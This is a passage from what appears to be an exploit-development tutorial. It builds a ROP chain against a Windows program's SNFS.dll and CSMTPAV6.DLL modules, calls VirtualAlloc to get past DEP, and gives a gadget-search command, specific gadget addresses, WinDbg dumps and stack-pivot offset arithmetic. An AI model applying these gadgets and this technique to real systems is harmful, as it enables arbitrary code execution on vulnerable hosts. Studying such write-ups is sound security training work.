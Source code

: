 With everything aligned and ready, the only challenge that remains is to invoke the API. We look for gadgets that allows us to overwrite ESP.

```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(mov esp,).*?((retn  ;)|(ret  ;))"  | Select-String -Pattern "(leave)" -NotMatch  | Select-String -Pattern "(000)" -NotMatch

ROPS\SNFS.dll.txt:10857:0x1001a555: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:12420:0x1001a554: pop ebx ; mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:13334:0x1001a553: pop esi ; pop ebx ; mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5742:0x5100ac04: mov esp, ebp ; pop ebp ; push ecx ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5743:0x5100ace2: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5744:0x5100b5ae: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5745:0x5100b691: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5746:0x5100c4c1: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5747:0x5100c550: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5748:0x5100e459: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5749:0x5100e427: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:5750:0x5100fd9c: mov esp, ebp ; pop ebp ; ret  ;  (1 found)
```

We seem to only find a gadget that writes `EBP` to the `ESP` address. Luckily for us we’ve been using `EBP` regulary within our ROP chain. Let’s recap our register values etc. at the end of the ROP chain.

```python
0:001> r
eax=00e9e304 ebx=42424242 ecx=00000040 edx=db61fb30 esi=42424242 edi=42424242
eip=1001526e esp=00e9e470 ebp=00e9e304 iopl=0         ov up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000a86
SNFS!_dosmaperr+0x48:
1001526e c3              ret

0:001> dds eax - 14 L6
00e9e2f0  100252e0 SNFS!_imp__VirtualAlloc
00e9e2f4  00e9e434
00e9e2f8  00e9e434
00e9e2fc  00000001
00e9e300  00001000
00e9e304  00000040
```

When our ROP chain completes `EBP` and `EAX` contains the stack address of the last argument e.g. `flProtect`. We need to adjust address to point to our `VirtualAlloc` address. We will do so using arithmetic, although small values will contain null-bytes, any bits higher than 32 will be discarded. So we add a large value to align the address. We mostly re-use some of our previous gadgets. We see that we would want to use `ffffffec` e.g. 20 bytes for our offset. We notice that our `POP EBP` will increase the stack by `4 bytes`. Therefore we want to land `4 bytes` before our `20 bytes` e.g. `24 bytes`.

```python
017be2f0  100252e0 SNFS!_imp__VirtualAlloc
017be2f4  017be434
017be2f8  017be434
017be2fc  00000001
017be300  00001000
017be304  00000040
017be308  017be30c

0:006> ? 017be304 - 017be2f0
Evaluate expression: 20 = 00000014
0:006> .formats 00000014
Evaluate expression:
  Hex:     00000014
  Decimal: 20
  Octal:   00000000024
  Binary:  00000000 00000000 00000000 00010100
```